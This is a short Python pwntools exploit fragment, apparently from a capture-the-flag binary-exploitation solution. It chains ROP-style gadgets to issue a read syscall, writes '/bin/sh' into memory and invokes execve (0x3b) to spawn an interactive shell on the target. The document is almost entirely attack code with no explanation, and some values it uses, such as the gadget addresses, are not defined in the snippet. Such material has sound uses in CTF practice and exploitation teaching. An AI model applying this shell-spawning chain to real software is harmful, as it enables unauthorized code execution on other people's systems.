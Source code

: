 ```python 
Free_Gate=0x40101c
xor_rdx=0x401021

payload=p64(gadget_pop)
payload+=p64(0)*3
payload+=p64(gadget_pop) #r15
payload+=p64(data) #rsi ,rsp
payload+=p64(0)*3 #rdi,rbx,r13
payload+=p64(rax_r13) #r15 
payload+=p64(Free_Gate)
payload+=p64(sys_call) #r15   read

payload+=p64(gadget_pop)# rsp,rsi
payload+=p64(data)+p64(0)+p64(0)# rdi,rbx,r13
payload+=p64(gadget_pop)# r15
payload+=p64(0) # rsp,rsi
payload+=p64(data)+p64(data)+p64(0x3b) # rdi,rbx,r13
payload+=p64(dispatcher)#r15
payload+=p64(sys_call)

io.send(payload)
payload=b'/bin/sh\x00'
payload+=p64(xor_rdx)+p64(rax_r13)
#gdb.attach(io)
io.send(payload)


io.interactive()
```